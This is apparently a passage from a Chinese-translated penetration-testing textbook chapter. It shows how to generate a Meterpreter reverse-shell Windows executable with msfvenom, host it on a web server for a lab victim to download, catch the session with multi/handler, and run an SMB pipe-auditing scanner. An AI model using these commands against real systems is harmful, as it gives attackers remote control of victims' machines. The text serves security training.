示例 4-15. Msfvenom 中的选项

```
root@kali:~# msfvenom -p windows/meterpreter/reverse_tcp -o
[*] Options for payload/windows/meterpreter/reverse_tcp

    Name      Current Setting  Required  Description
    ----      ---------------  --------  -----------
    EXITFUNC  process          yes       Exit technique: seh, thread, process,
                                           none
    LHOST                      yes       The listen address
    LPORT     4444             yes       The listen port
```

正如预期的那样，我们需要设置`LHOST`，并且`LPORT`默认为 4444。为了练习，将`LPORT`设置为 12345，输入**`LPORT=12345`**。我们还看到`EXITFUNC`，可以将其保留为默认设置。由于这是一个反向连接有效载荷，我们需要设置`LHOST`选项，告诉目标机器连接回我们的 Kali 机器。

### 选择输出格式

现在告诉 Msfvenom 使用哪个输出格式。我们是要从 Windows 可执行文件运行这个有效载荷，还是要制作一个可以上传到我们已经获得写入权限的 Web 服务器的 ASP 文件？要查看所有可用的输出格式，请输入**`msfvenom --help-formats`**。

```
root@kali:~# msfvenom --help-formats
Executable formats
    asp, aspx, aspx-exe, dll, elf, exe, exe-only, exe-service, exe-small,
      loop-vbs, macho, msi, msi-nouac, psh, psh-net, vba, vba-exe, vbs, war
Transform formats
    bash, c, csharp, dw, dword, java, js_be, js_le, num, perl, pl, powershell,
      psl, py, python, raw, rb, ruby, sh, vbapplication, vbscript
```

要选择输出格式，请使用`-f`选项并选择所需的格式：

```
msfvenom windows/meterpreter/reverse_tcp LHOST=192.168.20.9 LPORT=12345 -f exe
```

但是，如果你按原样运行这个命令，你会看到控制台输出垃圾信息。虽然这在技术上是我们的可执行有效载荷，但它对我们没有什么帮助。相反，我们将输出重定向到一个可执行文件，*chapter4example.exe*。

```
root@kali:~# msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.20.9 LPORT=12345 -f exe > **chapter4example.exe**
root@kali:~# file chapter4example.exe
chapter4example.exe: PE32 executable for MS Windows (GUI) Intel 80386 32-bit
```

屏幕上没有输出，但如果我们在新创建的可执行文件上运行 `file` 命令，我们会看到它是一个 Windows 可执行文件，只要用户尝试运行它，它将在 *任何* Windows 系统上运行。（稍后，在 第十二章中，我们将看到杀毒软件应用如何阻止 Metasploit 有效载荷，并学习如何将我们的独立有效载荷混淆以绕过杀毒程序。此外，我们还将在 第十一章中讨论一些巧妙的方法来引诱用户下载并运行恶意有效载荷。）

### 投放有效载荷

一种有效的投放有效载荷的好方法是将其托管在 Web 服务器上，将其伪装成有用的东西，并引诱用户下载。对于这个示例，我们将在 Kali 机器的内建 Apache 服务器上托管我们的 Metasploit 可执行文件，然后从目标机器浏览该文件。

首先，运行 **`cp chapter4example.exe /var/www`** 将有效载荷可执行文件复制到 Apache 目录，然后确保通过 **`service apache2 start`** 启动 Web 服务器。

```
root@kali:~# cp chapter4example.exe /var/www
root@kali:~# service apache2 start
Starting web server apache2                                           [ OK ]
```

现在切换到你的 Windows XP 目标并打开 Internet Explorer。浏览到 *[`192.168.20.9/chapter4example.exe`](http://192.168.20.9/chapter4example.exe)* 并下载该文件。但在运行文件之前，我们还有一个未完成的步骤。

到目前为止，在尝试利用我们的目标机器时，Metasploit 设置了我们的有效载荷处理程序并发送了漏洞利用代码。当我们使用 Msfconsole 利用 MS08-067 漏洞并使用反向 shell 有效载荷时，Metasploit 首先设置了一个监听端口 4444 的处理程序来接收反向连接，但直到现在，我们还没有设置监听我们用 Msfvenom 创建的有效载荷的反向连接。

### 使用 Multi/Handler 模块

重新启动 Msfconsole，我们将查看一个名为 *multi/handler* 的 Metasploit 模块。这个模块允许我们设置独立的处理程序，这正是我们缺少的。我们需要一个处理程序来捕获我们的 Meterpreter 连接，当我们的恶意可执行文件在 Windows XP 目标系统上运行时。选择 *multi/handler* 模块，输入 **`use multi/handler`**。

第一步是告诉 *multi/handler* 我们需要 Metasploit 的哪些处理程序。我们需要捕获我们使用 Msfvenom 创建可执行文件时所使用的 `windows/meterpreter/reverse_tcp` 有效载荷。通过 **`set PAYLOAD windows/meterpreter/reverse_tcp`** 选择它，然后输入 **`show options`** （示例 4-16）。

示例 4-16. 使用 multi/handler 的选项

```
msf > **use multi/handler**
msf  exploit(handler) > **set PAYLOAD windows/meterpreter/reverse_tcp**
PAYLOAD => windows/meterpreter/reverse_tcp
msf  exploit(handler) > **show options**

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------

Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique: seh, thread, process,
                                          none
   LHOST                      yes       The listen address
   LPORT     4444             yes       The listen port

*--snip--*
msf  exploit(handler) >
```

从这里我们告诉 Metasploit 在创建有效载荷时使用的设置。我们将`LHOST`选项设置为本地 Kali IP 地址，将`LPORT`设置为我们在 Msfvenom 中选择的端口，在这个例子中是 192.168.20.9 和 12345。一旦所有有效载荷选项正确设置，输入**`exploit`**，如示例 4-17 所示。

示例 4-17. 设置一个处理程序

```
msf  exploit(handler) > **set LHOST 192.168.20.9**
LHOST => 192.168.20.9
msf  exploit(handler) > **set LPORT 12345**
LPORT => 12345
msf  exploit(handler) > **exploit**

[*] Started reverse handler on 192.168.20.9:12345
[*] Starting the payload handler...
```

如你所见，Metasploit 根据指示在端口 12345 上设置了一个反向处理程序，监听回调的有效载荷。

现在我们可以切换回我们的 Windows XP 目标，运行我们下载的可执行文件。在 Windows 目标上运行*chapter4example.exe*。回到 Msfconsole，你应该会看到处理程序收到反向连接，并且你获得了一个 Meterpreter 会话。

```
[*] Sending stage (752128 bytes) to 192.168.20.10
[*] Meterpreter session 1 opened (192.168.20.9:12345 -> 192.168.20.10:49437) at 2015-09-01 11:20:00 -0400

meterpreter >
```

如果你愿意，可以花些时间尝试一下 Msfvenom。我们将在第十二章中讨论如何利用这个有用的工具绕过防病毒解决方案。

## 使用辅助模块

Metasploit 最初是作为一个漏洞利用框架构思的，至今依然是漏洞利用领域的顶尖竞争者。但在随后的几年中，它的功能已经扩展到几乎所有方向，就像有那么多富有创意的人在为它工作一样。我有时开玩笑说，Metasploit 除了洗衣服什么都能做，而我目前正在为此开发一个模块。

除了漏洞利用之外，Metasploit 还拥有帮助渗透测试各个阶段的模块。有些模块不是用于漏洞利用的，它们被称为*辅助模块*；这些模块包括漏洞扫描器、模糊测试工具，甚至拒绝服务模块。（一个好记的经验法则是：漏洞利用模块使用有效载荷，而辅助模块不使用。）

例如，当我们在本章早些时候首次使用*windows/smb/ms08_067_netapi*漏洞利用模块时，它的选项之一是`SMBPIPE`。该选项的默认值是`BROWSER`。让我们来看一个辅助模块，它将枚举 SMB 服务器上正在监听的管道，*auxiliary/scanner/smb/pipe_auditor*（示例 4-18）。(我们像使用漏洞利用模块一样使用辅助模块，和漏洞利用模块一样，我们也可以省略模块名中的*auxiliary/*部分。)

示例 4-18. 扫描器/smb/pipe_auditor 的选项

```
msf > **use scanner/smb/pipe_auditor**
msf  auxiliary(pipe_auditor) > **show options**

Module options (auxiliary/scanner/smb/pipe_auditor):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
  ❶RHOSTS                      yes       The target address range or CIDR identifier
   SMBDomain  WORKGROUP        no        The Windows domain to use for authentication
   SMBPass                     no        The password for the specified username
   SMBUser                     no        The username to authenticate as
   THREADS    1                yes       The number of concurrent threads
```

这个模块的选项与我们之前见到的有些不同。我们有`RHOSTS` ❶，而不是`RHOST`，它允许我们指定多个远程主机来运行该模块。（辅助模块可以针对多个主机运行，而漏洞利用模块一次只能利用一个系统。）

我们还看到了 `SMBUser`、`SMBPass` 和 `SMBDomain` 选项。由于我们的 Windows XP 目标不属于任何域，因此我们可以将 `SMBDomain` 保留为默认值 `WORKGROUP`。我们可以将 `SMBUser` 和 `SMBPass` 的值留空。`THREADS` 选项允许我们通过在多个线程中运行模块来控制 Metasploit 的速度。由于我们这里只扫描一个系统，因此默认的 `1` 个线程就可以正常工作。我们唯一需要设置的选项是 `RHOSTS`，即我们 Windows XP 目标的 IP 地址。

```
msf  auxiliary(pipe_auditor) > **set RHOSTS 192.168.20.10**
RHOSTS => 192.168.20.10
```

尽管在此案例中我们并没有真正利用任何漏洞，但我们仍然可以通过输入 **`exploit`** 命令来告诉 Metasploit 运行我们的辅助模块。

```
msf  auxiliary(pipe_auditor) > **exploit**

[*] 192.168.20.10 - Pipes: \browser ❶
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf  auxiliary(pipe_auditor) >
```

该模块会审计我们 Windows XP 目标上的 SMB 监听管道。事实证明，浏览器管道是唯一可用的管道 ❶。由于这个管道正在监听，因此它是我们在本章早些时候使用的 *windows/smb/ms08_067_netapi* 漏洞模块中 `SMBPIPE` 选项的正确值。

更新 Metasploit

本书中的练习旨在基于 Kali Linux 1.0.6 版本进行操作。自然，本书中使用的许多安全工具自 Kali 发布以来已经更新，尤其是 Metasploit，它会定期收到核心开发人员和安全社区的更新。

本书中的所有内容均适用于 Kali 1.0.6 上安装的 Metasploit 版本。随着你作为渗透测试员的职业发展，你会希望使用最新的 Metasploit 模块。Metasploit 项目通常会非常稳定地发布适用于最新网络安全问题的模块。要从 Metasploit 的 GitHub 拉取最新的模块，可以输入以下命令：root@kali:~# msfupdate

```
root@kali:~# msfupdate
```

## 总结

在本章中，我们已经熟悉了一些 Metasploit 接口的使用。我们将在整本书中不断返回使用 Metasploit。

在接下来的几章中，我们将模拟对目标机器进行渗透测试，涵盖多种漏洞类型。如果你从事渗透测试工作，可能会遇到各种不同安全状态的客户。一些客户可能会因为组织内缺少大量补丁而让你怀疑他们自从 2001 年安装基本镜像以来是否更新过。除了缺少补丁外，你可能还会发现其他漏洞，比如默认密码和配置错误的服务。对于经验丰富的渗透测试人员来说，获得对这些网络的访问权限是非常简单的。

另一方面，你也可能会遇到一些客户，他们已经完善了补丁管理，从 Windows 操作系统到所有第三方软件，都在整个组织内实行定期的补丁更新。有些客户可能会部署尖端的安全控制，例如只允许 Internet Explorer 访问互联网的代理服务器。这将阻止即使是 Metasploit 的反向 shell，它通过 80 或 443 端口回调并且看起来像是网页流量，除非你能够利用 Internet Explorer 程序，而它可能也已经完全打了补丁。你还可能会在外围发现入侵防御防火墙，它会丢弃任何看起来像攻击流量的字符串。

单单把 MS08-067 的 Metasploit 模块丢到这些高安全性网络中，除了可能接到网络监控供应商的电话，告诉你有逮捕令之外，不会有任何结果。（不用担心：作为渗透测试的一部分，你会拥有一张“免入狱卡”。）但即使是高度安全的网络，也只是像它们最脆弱的环节一样强大。例如，我曾为一家公司进行现场渗透测试，这家公司采用了我刚才提到的所有安全控制。然而，所有 Windows 工作站的本地管理员密码都是相同的五个字母的词典词汇。在我破解了密码之后，我能够以管理员身份登录网络上每一台工作站。接着，我使用了叫做*令牌伪装*的技术，获得了域管理员的权限。尽管有所有强大的安全控制，但只要稍加努力，我就能够像接管一个没有 2003 年补丁的网络一样，轻松接管这个网络。

在你继续阅读本书的过程中，你将不仅掌握突破脆弱系统所需的技术技能，还会培养出当似乎没有明显漏洞时找到突破口的思维方式。

现在让我们把注意力转向收集目标的信息，以便制定一个稳固的攻击计划。
